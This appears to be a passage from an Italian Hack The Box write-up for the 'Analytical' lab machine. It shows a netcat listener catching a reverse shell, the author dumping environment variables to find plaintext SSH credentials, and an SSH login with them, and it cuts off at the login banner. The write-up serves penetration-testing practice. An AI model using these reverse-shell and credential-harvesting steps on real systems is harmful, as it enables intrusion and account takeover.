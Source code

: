 otteniamo cosi la nostra revshell

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.233] 38360
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
501f3d513028:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
501f3d513028:/$
```

è una shell abbastanza limitata, come possiamo vedere con il comando ambiente `env`
```bash
501f3d513028:/$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=501f3d513028
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
501f3d513028:/$
```

possiamo vedere che che abbiamo un nome utente `metalytics` e una password `An4lytics_ds20223#
Usiamole per collegarci tramite ssh

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical]
└─# ssh metalytics@10.10.11.233
metalytics@10.10.11.233's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov  7 09:11:24 PM UTC 2023

  System load:              0.81982421875
```